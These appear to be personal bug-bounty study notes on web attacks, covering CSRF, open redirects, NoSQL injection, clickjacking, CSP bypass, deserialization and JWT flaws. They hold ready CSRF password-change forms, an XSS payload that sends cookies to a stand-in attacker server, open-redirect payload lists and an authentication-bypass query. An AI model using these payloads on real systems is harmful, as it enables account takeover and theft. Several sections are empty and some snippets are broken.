	<form method="POST" action="https://email.example.com/password_change" id="csrf-form"> 1
	<input type="text" name="new_password" value="abc123"> 2
	<input type="submit" value="Submit"> 3
	</form>
	<script>document.getElementById("csrf-form").submit();</script> 4
	</html>
#### It will generate a post request like this:
	POST /password_change
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE
	(POST request body)
	new_password=abc123

#### check if the target server has accepted the request generated by your HTML page. The goal is to prove that a foreign site can carry out state-changing actions on a user’s behalf.

####  some websites might be missing CSRF tokens but still protect against CSRF attacks by checking if the referer header of the request matches a legitimate URL. Checking the referer header protects against CSRF, because these headers help servers filter out requests that have originated from foreign sites

#### Confirming a CSRF vulnerability like this can help you rule out endpoints that have referer-based CSRF protection.

#### However, it’s important for developers to remember that referer head-ers can be manipulated by attackers and aren’t a foolproof mitigationsolution. Developers should implement a combination of CSRF tokens and SameSite session cookies for the best protection.


## <font color="red">Bypassing</font> CSRF protection:

#### the existence of protections doesn’t mean that the protection is comprehensive, well implemented, and impossible to bypass.

### <font color="red">Exploit Clickjacking</font>
#### If the endpoint uses CSRF tokens but the page itself is vulnerable to click-jacking, you can exploit clickjacking to achieve the same results as a CSRF.
#### This is because, in a clickjacking attack, an attacker uses an iframe to  frame the page in a malicious site while having the state-changing request originate from the legitimate site. If the page where the vulnerable end-point is located is vulnerable to clickjacking, you’ll be able to achieve the same results as a CSRF attack on the endpoint, albeit with a bit more effort  and CSS skills.

### <font color="red">Change the Request Method</font>

#### Another trick you can use to bypass CSRF protections is changing the request method. Sometimes sites will accept multiple request methods for the same endpoint, but protection might not be in place for each of those methods. By changing the request method, you might be able to get the action executed without encountering CSRF protection.

#### you could change the request mehtod from this :
	POST /password_change
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE
	(POST request body)
	new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
#### to this:
	GET /password_change?new_password=abc123
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE
#### In this case, your malicious HTML page could simply look like this:
	<html>
	
	</html>
#### The HTML  tag loads images from external sources. It will send a GET request to the URL specified in its src attribute.
#### if the password change occurs then you can reprot it as csrf vulnerability 

### <font color="red">Bypass CSRF Tokens Stored on the Server</font>
#### But what if neither clickjacking nor changing the request method works? If the site implements CSRF protection via tokens, here are a few more things that you can try.

#### just if the site uses csrf doesnt mean it is validating them properly .
#### If the site isn’t validating CSRF tokens in the right way, you can still achieve CSRF with a few modifications of your malicious HTML page.
#### <font color="red">1-</font>: first try deleting the token parameter or sending a blank token parameter .
##### this is how you generate a payload for empty parameter of a post method request :
	<html>
	<form method="POST" action="https://email.example.com/password_change" id"csrf-form">
	<input type="text" name="new_password" value="abc123">
	<input type="text" name="csrf_token" value="">
	<input type='submit' value="Submit">
	</form>
	<script>document.getElementById("csrf-form").submit();</script>
	</html>
##### Deleting the token parameter or sending a blank token often works because of a common application logic mistake. Applications sometimes check the validity of the token only if the token exists, or if the token  parameter is not blank. The code for an insecure application’s validation mechanism might look roughly like this:
	def validate_token():
		1 if (request.csrf_token == session.csrf_token):
			pass
		else:
		2 throw_error("CSRF token incorrect. Request rejected.")
			[...]
	def process_state_changing_action():
		if request.csrf_token:
			validate_token()
		3 execute_action()

##### This fragment of Python code first checks whether the CSRF token exists 1. If it exists, the code will proceed to validate the token. If the token is valid, the code will continue. If the token is invalid, the code will stop the execution and produce an error 2. On the other hand, if the token does not exist, the code will skip validation and jump to executing the action right away 3. In this case, sending a request without the token, or a blank value as the token, may mean the server won’t attempt to validate the token at all.

#### <font color="red">2-</font> second try submitting the request with another session’s CSRF token. This works because some applications might check only whether the token is valid, without confirming that it belongs to the current user.

#### <font color="red">3-</font>Bypass Double-Submit CSRF Tokens: 
##### Sites also commonly use a double-submit cookie as a defense against CSRF. In this technique, the state-changing request contains the same random token as both a cookie and a request parameter, and the server checks whether the two values are equal. If the values match, the request is seen as legiti-mate. Otherwise, the application rejects it. For example, this request would be deemed valid, because the csrf_token in the user’s cookies matches the csrf_token in the POST request parameter

	POST /password_change
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
	(POST request body)
	new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
##### And the following one would fail. Notice that the csrf_token in the user’s cookies is different from the csrf_token in the POST request param- eter. In a double-submit token validation system, it does not matter whether the tokens themselves are valid. The server checks only whether the token in the cookies is the same as the token in the request parameters:

	POST /password_change
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
	(POST request body)
	new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
##### If the application uses double-submit cookies as its CSRF defense mech-anism, it’s probably not keeping records of the valid token server-side. If the server were keeping records of the CSRF token server-side, it could simply validate the token when it was sent over, and the application would not need to use double-submit cookies in the first place.

##### The server has no way of knowing if any token it receives is actually legitimate; it’s merely checking that the token in the cookie and the token in the request body is the same. In other words, this request, which enters the same bogus value as both the cookie and request parameter, would also be seen as legitimate:
	POST /password_change
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
	(POST request body)
	new_password=abc123&csrf_token=not_a_real_token
##### Generally, you shouldn’t have the power to change another user’s cook-ies. But if you can find a way to make the victim’s browser send along a fake cookie, you’ll be able to execute the CSRF.

##### The attack would then consist of two steps: first, you’d use a session fixation technique to make the victim’s browser store whatever value you choose as the CSRF token cookie. Session fixation is an attack that allows attackers to select the session cookies of the victim.


#### <font color="red">4-</font>Bypass CSRF Referer Header Check
##### in this case the target is not using csrf token but checking for the referre header instead

##### First, you can try to remove the referer header
##### Like sending a blanktoken, sometimes all you need to do to bypass a referer check is to not send a referer at all. To remove the referer header, add a _<meta_> tag to the page hosting your request form:
	<html>
	<meta name="referrer" content="no-referrer">
	<form method="POST" action="https://email.example.com/password_change" id="csrf-form">
	<input type="text" name="new_password" value="abc123">
	<input type='submit' value="Submit">
	</form>
	<script>document.getElementById("csrf-form").submit();</script>
	</html>
##### This particular _<meta_> tag tells the browser to not include a referer header in the resulting HTTP request.
	def validate_referer():
		if (request.referer in allowlisted_domains):
			Cross-Site Request Forgery 169
			pass
		else:
		throw_error("Referer incorrect. Request rejected.")
		[...]
	def process_state_changing_action():
		if request.referer:
			validate_referer()
		execute_action()
##### et’s say the application looks for the string "example.com" in the ref-erer URL, and if the referer URL contains that string, the application treats the request as legitimate. Otherwise, it rejects the request:
	def validate_referer():
	if request.referer:
	if ("example.com" in request.referer):
	pass
	else:
	throw_error("Referer incorrect. Request rejected.")
	[...]
	def process_state_changing_action():
	validate_referer()
	execute_action()

##### In this case, you can bypass the referer check by placing the victim domain name in the referer URL as a subdomain. You can achieve this by creating a subdomain named after the victim’s domain, and then hosting the malicious HTML on that subdomain. Your request would look like this:
	POST /password_change
	Host: email.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	Referer: example.com.attacker.com
	(POST request body)
	new_password=abc123

##### You can also try placing the victim domain name in the referer URL as a pathname.


#### <font color="red">Bypass CSRF Protection by Using XSS</font> 
##### XSS vulnerability will defeat CSRF protections, because XSS will allow attackers to steal the legitimate CSRF token and then craft forged requests by using XMLHttpRequest. Often,attackers will find XSS as the starting point to launch CSRFs to take over admin accounts.
	POST /change_billing_email
	Host: example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	email=NEW_EMAIL&csrf_token=871caef0757a4ac9691aceb9aad8b65b

## <font color="red">Escalating the Attack</font>
### <font color="red">Leak user information using csrf</font>:
##### For example, let’s say the example.com web application sends monthly billing emails to a user-designated email address. These emails contain the users’ billing information, including street addresses, phone numbers, and credit card information. The email address to which these billing emails are sent can be changed via the following request:

##### Unfortunately, the CSRF validation on this endpoint is broken, andthe server accepts a blank token. The request would succeed even if the csrf_token field is left empty:
	POST /change_billing_email
	Host: example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	email=NEW_EMAIL&csrf_token=
##### An attacker could make a victim user send this request via CSRF to change the destination of their billing emails:
	POST /change_billing_email
	Host: example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	email=ATTACKER_EMAIL&csrf_token=
##### All future billing emails would then be sent to the attacker’s email address until the victim notices the unauthorized change. Once the billing email is sent to the attacker’s email address, the attacker can collect sensitive information, such as street addresses, phone numbers, and credit cardinformation associated with the account.
### <font color="red">Create Stored Self-XSS by Using CSRF</font>: 
For example, let’s say that example.com’s financial subdomain, finance
.example.com, gives users the ability to create nicknames for each of their
linked bank accounts. The account nickname field is vulnerable to self-XSS:
there is no sanitization, validation, or escaping for user input on the field.
However, only the user can edit and see this field, so there is no way for an
attacker to trigger the XSS directly.
However, the endpoint used to change the account nicknames is vul-
nerable to CSRF. The application doesn’t properly validate the existence of
the CSRF token, so simply omitting the token parameter in the request will
bypass CSRF protection. For example, this request would fail, because it
contains the wrong token:

	POST /change_account_nickname
	Host: finance.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	account=0
	&nickname="_<script_>document.location='http://attacker_server_ip/
	cookie_stealer.php?c='+document.cookie;_< /script_>"
	&csrf_token=WRONG_TOKEN
But this request, with no token at all, would succeed:
	
	POST /change_account_nickname
	Host: finance.example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	account=0
	&nickname="_<script_>document.location='http ://attacker_server_ip/
	cookie_stealer.php?c='+document.cookie;_< /script _>"
This request will change the user’s account nickname and store the
XSS payload there. The next time a user logs into the account and views
their dashboard, they’ll trigger the XSS.


### <font color="red">Take Over User Accounts by Using CSRF</font>
Sometimes CSRF can even lead to account takeover. These situations aren’t
uncommon, either; account takeover issues occur when a CSRF vulner-
ability exists in critical functionality, like the code that creates a password,
changes the password, changes the email address, or resets the password.
For example, let’s say that in addition to signing up by using an email
address and password, example.com also allows users to sign up via their
social media accounts. If a user chooses this option, they’re not required to
create a password, as they can simply log in via their linked account. But to
give users another option, those who’ve signed up via social media can set a
new password via the following request:

	POST /set_password
	Host: example.com
		Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	password=XXXXX & csrf_token=871caef0757a4ac9691aceb9aad8b65b
Since the user signed up via their social media account, they don’t need
to provide an old password to set the new password, so if CSRF protection
fails on this endpoint, an attacker would have the ability to set a password for
anyone who signed up via their social media account and hasn’t yet done so.
Let’s say the application doesn’t validate the CSRF token properly and
accepts an empty value. The following request will set a password for any-
one who doesn’t already have one set:

	POST /set_password
	Host: example.com
	Cookie: session_cookie=YOUR_SESSION_COOKIE;
	(POST request body)
	password=XXXXX&csrf_token=
	
Now all an attacker has to do is to post a link to this HTML page on
pages frequented by users of the site, and they can automatically assign the
password of any user who visits the malicious page:

	<html>
	<form method="POST" action="https://email.example.com/set_password" id="csrf-form">
	<input type="text" name="new_password" value="this_account_is_now_mine">
	<input type="text" name="csrf_token" value="">
	<input type='submit' value="Submit">
	</form>
	<script>document.getElementById("csrf-form").submit();</script>
	</html>

# <font color="red">CRLF</font>

Carriage Return (CR) and Line Feed (LF), collectively known as CRLF, are special characters sequences used in the HTTP protocol to denote the end of a line or the start of a new one.Web servers and browsers use CRLF to distinguish between HTTP headers and the body of a response.

### CRLF injection vulnerability
CRLF injection involves the insertion of CR and LF characters into user-supplied input. This action misleads the server, application, or user into interpreting the injected sequence as the end of one response and the beginning of another. While these characters are not inherently harmful, their misuse can lead to HTTP response splitting and other malicious activities.


# <font color="red">OPEN REDIRECT</font>
#### NOTE: THERE IS A WAY TO CHAIN OPEN REDIRECTS TO SSRF AND I DONT KNOW IT YET

#### <font color="red">Referer</font> based :
##### referer headers are a common way of determining the user’s original location, since they contain the URL that linked to the current page. Thus, some sites will redirect to the page’s referer URL automatically after certain user actions, like login or logout. 
#### Test for Referer-Based Open Redirects :
To test
for these, set up a page on a domain you own and host this HTML page:
_<html_>
_<a href="https://example.com/login"_>Click on this link!_</a_>
_</html_>
Replace the linked URL with the target page. Then reload and visit
your HTML page. Click the link and see if you get redirected to your site
automatically or after the required user interactions.

### Parameter based : 
##### <font color="red">NOTE</font>: use google dorks for finding edditional redirect parameters:inurl:%3Dhttp site:example.com also try for inurl:%3D%2F site:example.com 
	inurl:redir site:example.com
	inurl:redirect site:example.com
	inurl:redirecturi site:example.com
	inurl:redirect_uri site:example.com
	inurl:redirecturl site:example.com
	inurl:redirect_uri site:example.com
	inurl:return site:example.com
	inurl:returnurl site:example.com
	inurl:relaystate site:example.com
	inurl:forward site:example.com
	inurl:forwardurl site:example.com
	inurl:forward_url site:example.com
	inurl:url site:example.com
	inurl:uri site:example.com
	inurl:dest site:example.com
	inurl:destination site:example.com
	inurl:next site:example.com

### common injection parameters:
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```

### Bypassing OR protectoin:

#### using browser auto correct :
##### Modern browsers often autocorrect URLs that don’t have the correct components, in order to correct mangled URLs caused by user typos. For example, Chrome will interpret all of these URLs as pointing to https://attacker.com:
	https:attacker.com
	https;attacker.com
	https:\/\/attacker.com
	https:/\/\attacker.com
	These quirks can help you bypass URL validation based on a blocklist
#### Most modern browsers also automatically correct backslashes (\) to forward slashes , meaning they'll treat thease URL'S as the same:
	https:\\example.com
	https://example.com

#### If the validator doesn’t recognize this behavior, the inconsistency could lead to bugs. For example, the following URL is potentially problematic:
	https://attacker.com\@example.com
#### Unless the validator treats the backslash as a path separator, it will interpret the hostname to be example.com, and treat attacker.com\ as the username portion of the URL. But if the browser autocorrects the backslash to a forward slash, it will redirect the user to attacker.com, and treat @example .com as the path portion of the URL, forming the following valid URL:
	https://attacker.com/@example.com
#### Exploiting Flawed Validator Logic :
##### Another way you can bypass the open-redirect validator is by exploiting loopholes in the validator’s logic. For example, as a common defense against open redirects, the URL validator often checks if the redirect URL starts with, contains, or ends with the site’s domain name bypass this type of protection by creating a subdomain or directory with the target’s domain name:
	https://example.com/login?redir=http://example.com.attacker.com
	https://example.com/login?redir=http://attacker.com/example.com
##### To prevent attacks like these from succeeding, the validator might accept only URLs that both start and end with a domain listed on the allowlist. However, it’s possible to construct a URL that satisfies both of these rules.Take a look at this one:
	https://example.com/login?redir=https://example.com.attacker.com/example.com

##### This URL redirects to attacker.com, despite beginning and ending with the target domain. The browser will interpret the first example.com as the subdomain name and the second one as the filepath. Or you could use the at symbol (@) to make the first example.com the username portion of the URL:
	https://example.com/login?redir=https://example.com@attacker.com/example.com
#### Using Data Urls:
##### data URLs use the data: scheme to embed small files in a URL. They are constructed in this format:
	data:MEDIA_TYPE[;base64],DATA
	data:text/html;base64,PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6Ly9leGFtcGxlLmNvbSI8L3NjcmlwdD4=
##### The data encoded in this URL, PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6 Ly9leGFtcGxlLmNvbSI8L3NjcmlwdD4=, is the base64-encoded version of this script:
	_<script_>location="https://example.com"_< /script _>
##### this is just a xss i think

### Exploit URL Decoding:
#### URLs sent over the internet can contain only ASCII characters, which include a set of characters commonly used in the English language and a few special characters. But since URLs often need to contain special characters or characters from other languages, people encode characters by using URL encoding. URL encoding converts a character into a percentage sign, followed by two hex digits; for example, %2f. This is the URL-encoded version of the slash character (/). When validators validate URLs, or when browsers redirect users, they have to first find out what is contained in the URL by decoding any characters that are URL encoded. If there is any inconsistency between how the validator and browsers decode URLs, you could exploit that to your advantage.
#### Double encoding:
	https://example.com%252f@attacker.com
#### Non-ASCII Characters:
##### You can sometimes exploit inconsistencies in the way the validator and browsers decode non-ASCII characters. For example, let’s say that this URL has passed URL validation:
	https://attacker.com%ff.example.com
#### %ff is the character ÿ, which is a non-ASCII character. The validator has determined that example.com is the domain name, and attacker.comÿ is the subdomain name. Several scenarios could happen. Sometimes browsers  decode non-ASCII characters into question marks. In this case, example.com would become part of the URL query, not the hostname, and the browser would navigate to attacker.com instead:
	https://attacker.com?.example.comf140 
	  
##### Another common scenario is that browsers will attempt to find a “most alike”  character. For example, if the character ╱ (%E2%95%B1) appears in a URL like this, the validator might determine that the hostname is example.com:
	https://attacker.com╱.example.com
#### Combine Exploit techniques :
##### To defeat more-sophisticated URL validators, combine multiple strategies to bypass layered defenses. I’ve found the following payload to be useful:
	https://example.com%252f@attacker.com/example.com


# <font color ="red">ESI INJ..</font>

# <font color="red">NOSQL INJ...</font>
## <font color="red"> Looking for Nosql injection</font> :
### Note: Nosql databases store datas into databases into other structures like key-value pairs unlike the normal databases which  store into tables
#### Modern NoSQL databases such as Mongodb , Apache CouchDB and Apache Cassandra are also vulnerable to sql injection  attacks 
#### Take MongoDB, for example. In MongoDB syntax, Users.find() returns users that meet a certain criteria. For example, the following query returns users with the username vickie and the password password123
	Users.find({username: 'vickie', password: 'password123'});
#### if the application use this functionality to use login for the website like this:
	Users.find({username: $username, password: $password});
#### then attackers can submit the password {$ ne : ""} to login as anyone . For example , let's say that the attacker submits a username of admin and a password of { $ ne : ""}(no space between dollar sign and ne word ) then the databse query would become as follows : 
	Users.find({$username: 'admin', password:{$ne : ""}})

#### in mongo db $ne selects objects whose value is not equal to the specified value . Here the query would retutn users whose usernanme is admin and password is not equal to an empty string , the attacker can thus bypass authentication and gain access to the admin account .

#### Injecting into MongoDB queries can also allow attackers to execute javascript code on the server . In MongoDB the <font color="red">$where</font>,<font color="red"> mapreduce </font >,<font color="red"> $acumalator </font >,  and <font color="red"> $function</font> operations 
#### you can define a function in $where operator to find users named vickie
	
	Users.find({ $where: function(){
			return (this.username == 'vickie') }})
#### Say the developer allows unvalidated user input in this function and uses that to fetch account data, like this:
	Users.find( { $where: function() {
	return (this.username == $user_input) } } );

#### In that case, an attacker can execute arbitrary JavaScript code by injecting it into the $where operation. For example, the following piece of  malicious code will launch a denial-of-service (DoS) attack by triggering a never-ending while loop:

	Users.find( { $where: function() {
	return (this.username == 'vickie'; while(true){};) } } );
#### The process of looking for nosql injection is similar to detecting SQL injections. You can insert special characters such as quotes (" ' ), semicolon (;), and backslash (\\) , as well as parentheses (()) , brackets (\[]) and braces ({}), into user input fields and look for errors or other anomolies , you can automate the finding process by using the tool NoSQLMap 

#### By validating user input and avoiding dangerous database functions  developers can prevent Nosql injection attacks . In MongoDB, you can disable the running of server-side JavaScript by using the --noscripting option in the command line or setting the security.javascriptEnabled flag in the configuration file to false. Find more information at https://docs.mongodb.com/ manual/faq/fundamentals/index.html.
#### dditionally, you should follow the principle of least privilege when assigning rights to applications. This means that applications should run with only the privileges they require to operate. For example, when an application requires only read access to a file, it should not be granted any write or execute permissions. This will lower your risk of complete system compromise during an attack.


# <font color="red">LDAP INJ..</font>

# <font color="red">XPATH</font>

# <font color="red">CLICKJACKING</font>

## Mechanism:
#### Clickjacking relies on an HTML feature called an iframe. HTML iframes allow developers to embed one web page within another by placing an _<iframe_> tag on the page, and then specifying the URL to frame in the tag’s src attribute.
##### Iframes are useful for many things. The online advertisements you often see at the top or sides of web pages are examples of iframes; companies use these to include a premade ad in your social media or blog. Iframes also allow you to embed other internet resources, like videos and audio, in your web pages
## Prevention:
#### Two conditions must be met for a clickjacking vulnerability to happen. First,the vulnerable page has to have functionality that executes a state-changing action on the user’s behalf. A state-changing action causes changes to the user’s account in some way, such as changing the user’s account settings or personal data. Second, the vulnerable page has to allow itself to be framed by an iframe on another site. The HTTP response header X-Frame-Options lets web pages indicate whether the page’s contents can be rendered in an iframe. Browsers will follow the directive of the header provided. Otherwise, pages are frameable by default. This header offers two options: DENY and SAMEORIGIN. If a page is served with the DENY option, it cannot be framed at all. The SAMEORIGIN option allows framing from pages of the same origin: pages that share the same protocol, host, and port.
	X-Frame-Options: DENY
	X-Frame-Options: SAMEORIGIN

#### To prevent clickjacking on sensitive actions, the site should serve one of these options on all pages that contain state-changing actions.

#### The Content-Security-Policy response header is another possible defense against clickjacking. This header’s frame-ancestors directive allows sites to indicate whether a page can be framed. For example, setting the directive to 'none' will prevent any site from framing the page, whereas setting the directive to 'self' will allow the current site to frame the page:
	Content-Security-Policy: frame-ancestors 'none';
	Content-Security-Policy: frame-ancestors 'self';
#### Setting frame-ancestors to a specific origin will allow that origin to frame the content. This header will allow the current site, as well as any page on the subdomains of example.com, to frame its contents:
	Content-Security-Policy: frame-ancestors 'self' *.example.com;
#### nother way of protecting against clickjacking is with SameSite cookies.When the SameSite flag on a cookie is set to Strict or Lax, that cookie won't be sent in requests made within a third-party iframe:
	Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Strict
	Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Lax

### Haunting for it :
#### Find clickjacking vulnerabilities by looking for pages on the target site that contain sensitive state-changing actions and can be framed.
#### <font color="red">Step 1</font>: Look for State-Changing Actions
#### You should also check that the action can be achieved via clicks alone. Clickjacking allows you to forge only a user’s clicks, not their keyboard actions.
#### <font color="red">Step 2</font>: Check the Response Headers
##### See if the page is being served with the X-Frame-Options or Content-Security-Policy header.(or the cookie attribute samesite )
##### Although setting HTTP response headers is the best way to prevent theseattacks, the website might have more obscure safeguards in place. For example,a technique called frame-busting uses JavaScript code to check if the page is in an iframe, and if it’s framed by a trusted site. Frame-busting is an unreliable way to protect against clickjacking. In fact, frame-busting techniques can often be bypassed, as I will demonstrate later in this chapter. You can confirm that a page is frameable by creating an HTML page that frames the target page. If the target page shows up in the frame, the page is frameable.

#### <font color="red">Step 3</font>: Confirm the Vulnerability:
##### Confirm the vulnerability by executing a clickjacking attack on your test account. You should try to execute the state-changing action through the framed page you just constructed and see if the action succeeds. If you can trigger the action via clicks alone through the iframe, the action is vulnerable to clickjacking.

### <font color="red">Bypassing</font> Protections:
#### Here’s an example of what you can try if the website uses frame-busting techniques instead of HTTP response headers and SameSite cookies: find a loophole in the frame-busting code. For instance, developers commonly make the mistake of comparing only the top frame to the current frame when trying to detect whether the protected page is framed by a malicious page. If the top frame has the same origin as the framed page, developers may allow it, because they deem the framing site’s domain to be safe. Essentially, the protection’s code has this structure:
	if (top.location == self.location){
	// Allow framing.
	}
	else{
	// Disallow framing.
	}
#### f that is the case, search for a location on the victim site that allows you toembed custom iframes. For example, many social media sites allows users to share links on their profile. These features often work by embedding the URL in an iframe to display information and a thumbnail of the link. Other common features that require custom iframes are those that allow you to embed videos, audio, images, and custom advertisements and web page builders. If you find one of these features, you might be able to bypass clickjacking protection by using the double iframe trick. This trick works by framing your malicious page within a page in the victim’s domain. First, construct a page that frames the victim’s targeted functionality. Then place the entire page in an iframe hosted by the victim site

#### his way, both top.location and self.location point to victim.com. The frame-busting code would determine that the innermost victim.com page is framed by another victim.com page within its domain, and therefore deem the framing safe. The intermediary attacker page would go undetected.

### <font color="red">Escalate </font> the attack:


### <font color="red">NOTE</font>: Often in bug bounty reports, you’ll need to show companies that real attackers could effectively exploit the vulnerability you found. That means youneed to understand how attackers can exploit clickjacking bugs in the wild.Clickjacking vulnerabilities rely on user interaction. For the attackto succeed, the attacker would have to construct a site that is convincingenough for users to click. This usually isn’t difficult, since users don’t often  take precautions before clicking web pages. But if you want your attack to become more convincing, check out the Social-Engineer Toolkit (https://github.com/trustedsec/social-engineer-toolkit/). This set of tools can, among other things, help you clone famous websites and use them for malicious purposes. You can then place the iframe on the cloned website. In my experience, the most effective location in which to place the hidden button is directly on top of a Please Accept That This Site Uses Cookies! pop-up. Users usually click this button to close the window without much thought.
# <font color="red">CSP BYPASS</font>

CSP is predominantly the most effective method for preventing XSS attacks.
However, it is common for web administrators to inadvertently relax the
CSP to accommodate functionality in web applications

### CSP Bypass : e.g 1 (unsafe inline)

in csp `script-src` directive is used to whitelist a specified source of scripts.
if `script-src` is set to `self` , it would mean that only the scripts with the same origin are followed to be loaded . Here is what a standard policy might look like 

```
Contetn-Security-Policy: script-src 'unsafe-inline';
```

Occasionally, the “script-src” directive might be set to “unsafe-inline”; this
although will prevent third-party scripts that are not whitelisted from being loaded 
However at the same time, it will allow inline script elements, event handlers, and Javascript URLs to execute.

### CSP Bypass: third party endpoints and "Unsafe-eval":
In a scenario whereby a website administrator has whitelisted a CDN domain as part of CSP and has also enabled `unsafe-eval` it might be possible to load a vulnerable version of a library which is already hosted on the whitelisted CDN, and then execute arbitrary JavaScript.

```
Example :
Contetn-Security-Policy: script-src https://cdnjs.cloudflare.com 'unsafe-eval'
```

### CSP Bypass : Data URI ALLOWED

In this scenario, CSP is configured with script-src `self` but also permits the inclusion of `data`. This configuration could lead to security bypasses, as it allows the use of data URLs which can embed actual script content. 

```
Contetn-Security-Policy: script-src 'self' data:;
```

in this configuration, since the use of the data URI is allowed, it can be used to embed HTML content directly within the iframe , as opposed to loading it from an external source. In iframe, the srcdoc attribute can be used to facilitate the createion of an inline document.

```
payload :
<iframe srcdoc='<script src="data:text/javascript, alert(document.domain)"></script>'</iframe>
```
### CSP Bypass through Javascript file upload 

As we are aware that CSP prevents the loading of JavaScript from external
websites, to allow internal scripts, the “self” flag is used. However, if a web-
site is vulnerable to file uploads and allows uploading of “.js” files, these files
can be referenced in an XSS vector.

As a result, they will be treated as scripts
coming from the same origin, thereby potentially bypassing the CSP.


# <font color="red">COOKIE HACKING</font>

# <font color="red">2FA/OTP BYPASS</font>

# <font color="red">CAPTCHA BYPASS</font>

# <font color="red">RATE LIMIT BYPASS</font>

# <font color="red">LOGIN BYPASS</font>

# <font color="red">DESERIALIZATION </font>
#### <font color="red">NOTE</font> JWT supports a none option for the algorithm type. If the alg field is set to none, even tokens with empty signature sections would be considered valid.

### <font color="red">NOTE</font>: most deserialization bugs in the wild are caused by insecure deserialization in Java

### <font color="red">NOTE</font>: If you’re tampering with the serialized string directly, remember to change the string’s length marker as well, since the length of your status string has changed:

### <font color="red">NOTE</font> PHP magic methods are method names in php that have special properties . If the serialized object’s class implements any method with a magic name, these methods will have magic properties, such as being automatically run during certain points of execution, or when certain conditions are met. Two of these magic methods are __wakeup() and __destruct().

### <font color="red">NOTE</font> to exploit Java applications via an insecure deserialization bug, we first have to find an entry point through which to insert the malicious serialized object. In Java applications, serializable objects are often used to transport data in HTTP headers, parameters, or cookies.


### <font color="red">Note </font > Java serialized objects are not human readable like PHP serialized strings. They often contain non-printable characters as well. But they do have a couple signatures that can help you recognize them and find potential entry points for your exploits:

#### • Starts with AC ED 00 05 in hex or rO0 in base64. (You might see these within HTTP requests as cookies or parameters.)
#### • The Content-Type header of an HTTP message is set to application/x-java-serialized-object.

### <font color="green"> sorush Dalili : </font> for learning deserialization attacks for .net remoting in binary : this tool from james forshaw: github.com/tyranid/ExploitRemotingService   for .net remoting over http(soap) see this lab github.com/nccgroup/VulnerableDotNetHTTPRemoting      for .net in general, references in here are useful : github.com/pwntester/ysoserial.net  for PHP deserialization, this can be a useful example: nickbloor.co.uk/2018/02/28 (not valid url ) but POPping wordpress is a key word to it


## <font color="red">Mechanism</font >
#### Serialization is the process by which some bit of data in a programming language gets converted into a format that allows it to be saved in a database or transferred over a network. Deserialization refers to the opposite process, whereby the program reads the serialized object from a file or the network and converts it back into an object.
#### When insecure deserialization occur in PHP , we some-times call them PHP object injection vulnerability 

## <font color="red">Prevention</font >


## <font color="red">Haunt</font >


## <font color="red"></font >

# <font color="red">JWT VULNS </font>
## 3 new attacks (blackhat confrence) [video][https://www.youtube.com/watch?v=mJ6BQ5eFkG4]
### prior jwt attacks :
#### 1. Bypass signature validation by providing  a token signed with "none" algorithm
#### 2. Bypass blocklist filter by "nOne"...

#### 3. Algorithm confusion: using an RSA public key as an HMAC secret key

#### 4. Key injection/ self-signed jwt : putting your own key in the jwk header

#### 5. Classic crypto attacks against primitive : RSA padding oracle; Curve Swap 

#### 6. Probably most common : simple dictionary words being used as cryptography keys
### new Attack
